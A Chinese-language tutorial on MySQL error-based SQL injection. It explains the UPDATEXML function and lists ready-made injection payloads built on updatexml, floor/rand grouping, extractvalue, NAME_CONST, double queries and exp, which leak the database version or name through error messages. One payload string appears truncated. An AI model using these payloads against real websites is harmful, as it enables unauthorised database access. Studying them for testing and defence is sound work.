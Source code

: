 当函数updatexml(),extractvalue(),floor()，exp,可利用时。可以尝试报错注入

1.updatexml

UPDATEXML (XML_document, XPath_string, new_value); 

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 

第三个参数：new_value，String格式，替换查找到的符合条件的数据 

作用：改变文档中符合条件的节点的值

然后咱们再看看语句：

http://www.XXXIII.com/a.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

CONCAT(str1,str2,…)  

返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

通过查询@@version,返回版本。然后CONCAT将其字符串化。因为UPDATEXML第二个参数需要Xpath格式的字符串,所以不符合要求，然后报错。

错误大概会是：

ERROR 1105 (HY000): XPATH syntax error: ’:root@localhost’

不懂Xpath格式的字符串的来这里：http://www.cnblogs.com/Loofah/archive/2012/05/10/2494036.html

低调求发展，潜心习安全。

![](images/00AB7F91516847C79F50744A495D5A122019-03-31_181438.png)

2.floor通过floor报错：

```javascript
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)
and (select count(*) from (select 1 union select null union select  !1)x group by concat((select version
```

3.   通过ExtractValue报错：

```javascript
and extractvalue(1, concat(0x7f, (select version()),0x7f))
```

4. 通过NAME_CONST报错：

```javascript
and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)
```

5.  通过错误的双重查询：

```javascript
or 1 group by concat_ws(0x7f,version(),floor(rand(0)*2)) having min(0) or 1
```

6.通过exp报错

'or EXP(~(SELECT * from(select database())a))#







